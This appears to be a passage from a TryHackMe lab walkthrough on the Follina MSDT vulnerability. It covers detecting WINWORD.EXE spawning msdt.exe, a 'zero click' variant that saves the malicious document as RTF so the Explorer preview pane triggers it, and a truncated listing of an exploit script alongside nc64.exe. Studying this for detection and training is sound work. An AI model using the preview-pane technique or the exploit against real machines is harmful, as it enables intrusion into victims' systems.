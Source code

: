 Process Explorer

Looking at the process explorer may be daunting as there are a ton of processes always running within the machine. In our case, we haven't done a lot of stuff with it and yet the number of running processes already covers the entire screen. This is where the importance of "making sense of the baseline", discussed in the first part of this task, is emphasized.

If you don't have any established baseline, it's easy to get paranoid and everything will suddenly seem to be suspicious. This is where you start wasting your time checking each and every process there is - mainly because you're unfamiliar with each and every one of them.

Scrolling through the processes, you'll be able to spot WINWORD.EXE immediately, followed by an msdt.exe child process. Somewhere in the list of processes you'll be able to see a process for the calculator as well which is the win32calc.exe. It might look something like this, although it's completely normal if the WINDWORD.EXE and the win32calc.exe are far away from each other.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/60c1834f577d63004fdaec50/room-content/c88e19f2ecbbac119deabd3377309580.png)

Now, finding these artifacts are easy because we already know what to look for, but how do we tackle the ones that we don't know about, the so called unknown unknowns? Well, we can refer to the baseline that we have, we compare, and then we validate.

"Zero Click" Implementation

In order to replicate the “zero click” implementation of this vulnerability, we simply head to the malicious word file, add a cute message (completely optional),  save it in the Rich Text Format (RTF), and we’re good to go. This implementation assumes that the victim machine is in the preview pane view, else it will revert to the original functionality which will still run upon opening of the file.

﻿Open the file explorer and navigate to the Desktop folder. There you will see the seemingly honest file that we made that needs clicking, proceed to click it once careful not to actually open it and see what will happen.

Despite not actually opening the file, the exploit ran in the same manner that it did earlier in this exercise. This happened because of two key features: 1) the feature of the File Explorer to preview files before opening them, and 2) the RTF which allows the feature of document files being able to be previewed in the File Explorer before being opened (among other purposes).

Combining the two and then abusing them will result in an attack vector that we’ve just witnessed now.

```
root@ip-10-10-1-188:~# cd Rooms/Follina-MSDT/
root@ip-10-10-1-188:~/Rooms/Follina-MSDT# ls
doc  follina.py  nc64.exe  README.md
root@ip-10-10-1-188:~/Rooms/Follina-MSDT# cat follina.py 
#!/usr/bin/env python3

import argparse
import zipfile
import tempfile
import shutil
import os
import netifaces
import ipaddress
import random
import base64
import http.server
import socketserver
import string
import socket
import threading

parser = argparse.ArgumentParser()

parser.add_argument(
    "--command",
```